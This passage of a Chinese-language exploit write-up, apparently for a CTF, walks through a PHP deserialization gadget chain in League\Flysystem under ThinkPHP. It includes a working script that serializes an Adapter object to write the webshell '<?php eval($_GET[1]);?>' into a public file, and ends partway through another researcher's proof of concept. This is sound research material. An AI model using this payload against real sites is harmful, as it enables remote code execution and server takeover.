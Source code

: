 ```bash
<?php
namespace League\Flysystem\Adapter;
class Local{}
namespace League\Flysystem\Cached\Storage;
use League\Flysystem\Adapter\Local;
abstract class AbstractCache{
    protected $autosave;
    protected $cache = [];
}
class Adapter extends AbstractCache{
    protected $adapter;
    protected $file;
    function __construct(){
        $this->autosave=false;
        $this->adapter=new Local();
        $this->file='huahua.php';
        $this->cache=['huahua'=>'<?php eval($_GET[1]);?>'];
    }
}
$o = new Adapter();
echo urlencode(serialize($o));

?>
```

入口点是 abstract class AbstractCache 中的\_\_destruct 方法  
但是 PHP 的抽象方法不能被实例化，因此需要实例化它的子类，这里选择的是 League\\Flysystem\\Cached\\Storage 的 Adapter.php  
然后进入 Adapter.php 的 save() 方法：目标是进入 write() 方法，里面有 file\_put\_contents，这里参数都可以控制首先看一下 getForStorage() 方法，它影响了 write 函数写入文件的内容 content 它会返回一个 json 加密的数据，这个参数是 cache,protected $cache = \[\];我们实例化的时候可控进入 cleanContents() 函数：我们只需要传入的 cache 是一个一维数组就不会进入 if 语句然后考虑这个 this->adapter 变量，这里找的是同时具有 has() 方法和 write() 方法的类，找到的是 League\\Flysystem\\Adapter 的 Local.php  
首先 has 方法我们需要保证返回 false 进入 applyPathPrefix() 很简单的字符串拼接，我们传入的$this->file 只要是一个不存在的文件就行进入 write() 方法

[![](assets/1709530629-6d44ef8b1065c031621df2f951f38ba5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240304110315-beebfeea-d9d3-1.png)

一样的先调用 applyPathPrefix() 方法，拼接一下文件路径，这里做的限制是删除路径的/字符，tp 默认写入文件就是 public 目录我们不需要设置路径最后成功写入木马  
此外我们看下 Y4tacker 师傅的 poc

```bash
<?php

namespace League\Flysystem\Cached\Storage{

    use League\Flysystem\Filesystem;

    abstract class AbstractCache{
        protected $autosave = false;


    }
    class Adapter extends AbstractCache
```